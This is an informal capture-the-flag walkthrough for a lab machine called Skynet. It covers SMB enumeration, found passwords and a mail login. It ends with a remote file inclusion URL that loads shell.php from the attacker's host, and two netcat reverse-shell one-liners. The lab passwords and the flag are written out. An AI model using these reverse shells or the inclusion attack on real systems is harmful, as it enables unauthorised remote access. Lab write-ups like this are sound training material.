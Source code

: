 ### Skynet ###

export IP=10.10.186.16


nmap showed a bunch of ports open....
gobuster showed few common dirs like /css or /js

but all were forbidden so no luck there...
nmap showed that guest login was allowed but i didnt know how so here is an example:

# Samba:

smbclient -L $IP

if anonymous share is there:

smbclient //$IP/anonymous -U USERNAME(guest) -p [PORT]

found attention.txt:username:-Miles Dyson

found a log file....contains a bunch of passwords i guess...one of them is:
cyborg007haloterminator (for miles)

# telnet:

telnet [IP] [PORT]

currently plaintext authentication is not allowed so finding another way...apparently gobuster didnt find /suirrelmail...which was the login required :/.....

Unknown user or password incorrect.

nvrmind logged in as milesdyson:pass fund earliear(milesdyson came from smb because it contained a smbshare)

Found three emails:

# 1.
i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to

# 2.
balls have zero to me to me to me to me to me to me to me to me to

# 3.


We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`

found the insannneeeee library of machine learning models lololol....

found important.txt:hidden dir:/45kra24zxs28v3yd


alerts/alertConfigField.php?urlConfig=http://10.11.18.102:8000/shell.php

# User.txt:
7ce5c2109a40f958099283600a9ae807

nc -e /bin/sh 10.11.18.102 7000

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.18.102 7000 >/tmp/f" > html/shell.sh
